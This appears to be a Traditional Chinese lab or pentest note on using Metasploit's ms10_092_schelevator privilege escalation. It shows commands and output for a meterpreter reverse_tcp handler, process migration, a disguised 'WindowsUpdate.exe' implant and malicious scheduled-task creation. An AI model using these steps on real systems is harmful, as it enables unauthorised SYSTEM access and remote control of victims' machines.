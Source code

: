 
### 用 `ms10_092_schelevator`
```cmd
msf6 exploit(windows/local/ikeext_service) > use exploit/windows/local/ms10_092_schelevator
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[-] Handler failed to bind to 159.89.115.68:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[-] Exploit aborted due to failure: no-target: Running against via WOW64 is not supported, try using an x64 meterpreter...
[*] Exploit completed, but no session was created.
```

**錯誤:** 會出現`Running against via WOW64 is not supported`
**解決:** 把session 1 migrate到x64的proccess中
```cmd
meterpreter > ps

Process List
============

 PID   PPID  Name                               Arch  Session  User                              Path
 ---   ----  ----                               ----  -------  ----                              ----
 0     0     [System Process]
 4     0     System                             x64   0
...
 5428  424   conhost.exe                        x64   0        NT AUTHORITY\SYSTEM               C:\Windows\System32\conhost.exe
 5516  424   conhost.exe                        x64   0        NT AUTHORITY\SYSTEM               C:\Windows\System32\conhost.exe
 5628  5896  cmd.exe                            x86   0        NT AUTHORITY\SYSTEM               C:\windows\SysWOW64\cmd.exe
 5668  4248  notepad++.exe                      x64   2        DIGISERVER1\jim                   C:\Program Files\Notepad++\notepad++.exe
 5876  3860  WindowsUpdate.exe                  x86   0        DIGISERVER1\digiserver1           C:\Users\digiserver1\AppData\Local\Temp\WindowsUpdate.exe
 5896  4720  WindowsUpdate.exe                  x86   0        NT AUTHORITY\SYSTEM               C:\Users\digiserver1\AppData\Local\Temp\WindowsUpdate.exe

meterpreter > migrate 5668
[*] Migrating from 792 to 5668...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
```
**結果:** 
```cmd!
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[-] Handler failed to bind to 159.89.115.68:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] Preparing payload at C:\Users\jim\AppData\Local\Temp\yrHLvtUAGMgBT.exe
[*] Creating task: HM51a01gtoTLS
[*] SUCCESS: The scheduled task "HM51a01gtoTLS" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\windows\system32\tasks\HM51a01gtoTLS...
[*] Original CRC32: 0xe8db95b3
[*] Final CRC32: 0xe8db95b3
[*] Writing our modified content back...
```